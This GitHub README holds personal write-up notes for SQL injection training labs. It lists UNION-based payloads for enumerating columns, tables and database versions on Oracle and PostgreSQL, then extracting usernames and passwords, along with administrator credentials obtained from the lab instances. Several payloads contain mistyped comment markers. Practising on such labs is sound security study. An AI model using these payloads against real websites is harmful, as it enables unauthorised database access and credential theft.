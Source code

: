# SQL-injection-a-to-z-
![logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/Blue%20Gradient%20Modern%20LinkedIn%20Banner.png)
<h3 align="center">SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior. (SQLi)</h3>

<p align="left"> <img src="https://komarev.com/ghpvc/?username=cyber-insect99&label=Profile%20views&color=0e75b6&style=flat" alt="cyber-insect99" /> </p>

<h3 align="left">Connect with me:</h3>
<p align="left">
</p>

<p>&nbsp;<img align="center" src="https://github-readme-stats.vercel.app/api?username=cyber-insect99&show_icons=true&locale=en" alt="cyber-insect99" /></p>
Lab :6 SQL injection attack, listing the database contents on Oracle
---------------------------------------------------------------
---------------------------------------------------------------
Step : 1   Determine the number of columns
>> '  order by  n- -    ->  ok

Step : 2   Figure out which column contain text
>> ' UNION select 'a', 'a' from DUAL--   [oracle database]

Step : 3   version of database
>> 'UNION SELECT banner, NULL From v$version--

Step : 4   Output list of  table names  in the database
>> ' UNION select table_name, Null From all_tables--
--> “ USERS_RQHGEF  ”

Step : 5   Output the column names of the table
--> ' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_RQHGEF'--
Column-name→ USERNAME_JLSJYT , PASSWORD_HJYSRZ

Step : 6   Output the usernames and passwords
--> ' UNION SELECT USERNAME_JLSJYT,PASSWORD_HJYSRZ FROM USERS_RQHGEF--

Administrator,  b53a64jetfw8n2fniq4lS

Lab 7: SQL injection UNION attack, determining the number of columns returned by the query
-------------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------------
' UNION select Null--                          Internal server error
' UNION select Null ,Null--                    Internal server error
' UNION select Null ,Null ,Null--              ok    column no is 2 

Lab 8: SQL injection UNION attack, finding a column containing text
-------------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------------
' UNION select Null ,Null ,Null–
' UNION select Null ,Null ,'abc'--   
' UNION select 'abc',Null ,Null--    
' UNION select Null ,'abc' ,Null--  → working 
' UNION select Null ,'oXrCmP' ,Null--  → working

 pass this  string thought this  position

Lab 9: SQL injection UNION attack, retrieving data from other tables
-------------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------------
End Goal : Output the usernames and passwords in the users table login as the administrator user.

Step : 1   Determine the number of columns
Step : 2   Determine the data type of the columns
' UNION select ' a',Null–
' UNION select 'a','a' –
→ both column are of data type string
Step : 3
' UNION select username,password from users–-



Lab 10: SQL injection UNION attack, retrieving multiple values in a single column
-------------------------------------------------------------------------------------------
-------------------------------------------------------------------------------------------

Step : 1   Determine the number of columns
'  order by  n- -    ->  ok
Step : 2   Determine the data type of the columns
' UNION select ' a',Null–-        server error
' UNION select Null,'a' –-          ok
Step : 3   version of database
' UNION select Null,version()--
PostgreSQL 12.16
' UNION select Null,username from users–-
' UNION select Null,password from users–-

' UNION select Null, username || password from users--
administrator  ksdy1dvq0sau0q7cie8r
